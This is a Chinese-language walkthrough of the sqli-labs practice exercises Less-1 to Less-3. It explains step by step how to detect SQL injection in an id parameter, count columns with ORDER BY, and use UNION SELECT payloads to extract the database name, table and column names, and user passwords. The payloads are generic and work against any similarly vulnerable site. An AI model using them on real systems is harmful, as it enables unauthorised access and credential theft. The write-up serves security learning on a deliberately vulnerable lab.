# Less-1
## 判断sql注入
Please input the ID as parameter with numeric value

判断是否存在sql注入，`?id=1`
返回的是


判断sql语句是否拼接，是字符型or数字型，
`?id=1'`
`?id=1'--++`



是字符型，且增加--+这个注释后，再次正常显示
```SQL
SELECT * FROM users WHERE id='1'' LIMIT 0,1;
                             └─┘└── 这一整段变成了多余且无法解析的错误语法，LIMIT从索引0开始，数1条
                            闭合了
```

## 联合注入
**第一步：**判断表格有几列，`?id=1'order by 3 --+`
`order by X`是让结果按照第X列来排序，判断出来有3列（不知道后端挑选的哪个表，不过反正是三列）



**第二步：爆出显示位**（找出网页上能显示数据的位置），`?id=-1'union select 1,2,3--+`
id=-1，让第一句查不出结果，如果第一句查出正常用户Dumb，页面会被Dumb占满，注入的1,2,3就显示不出来
图中，显示位是第2列、第3列


**第三步：获取数据名、版本号**，`?id=-1' union select 1,database(),version()--+``
`union`将查询结果，拼接成一张表输出
`database()`是当前运行的数据库名字


**第四步：爆表**，`?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+`
`SELECT`列的名字，`FROM` 存放所有列名的表的名字，`WHERE` 过滤条件
保留数字1、2为了占位，然后把第3列替换成了要查的数据：`group_concat(table_name)`
`group_concat(table_name)`把查询到的多行表名压缩、连接成一串字符串，用逗号隔开
`information_schema`记录当前Mysql实例中所有数据库、表、列的名字
`.table`记录表的信息
`where table_schema='security'`只看`security`这个数据库下的表名


这里要搞清楚**数据库**、**表**、**列**的关系：`security`数据库中包含4张表：`emails`、`referers`、`uagents`、`users`


**第五步：爆字段名**，`?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`
其中，和上一步爆表不同，爆表中的`table_schema='security'`的是查看security数据库的表格，而`table_name='users'`是查看users表格中的列

**第六步：获取users表格中的列**
`?id=-1'union select 1,2,group_concat(username,id,password) from users--+`

# Less-2
数字型
```
?id=1'
?id=1'--+
?id=1--+
```



```
?id=1 order by 3
?id=1 order by 4
?id=-1 union select 1,2,3
?id=-1 union select 1,database(),version()
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security'
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'users'
?id=-1 union select 1,2,group_concat(username,id,password) from users
```

# Less-3

`?id=1'`后弹出提示内容`use near ''1'') LIMIT 0,1' at line 1`，提示`'1'') LIMIT 0,1`不符合语法
php文件是`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

```
?id=1')--+
?id=1')order by 3--+
?id=-1')union select 1,2,3--+
?id=-1')union select 1,database(),version()--+
?id=-1')union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1')union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1')union select 1,2,group_concat(username,id,password) from users--+
```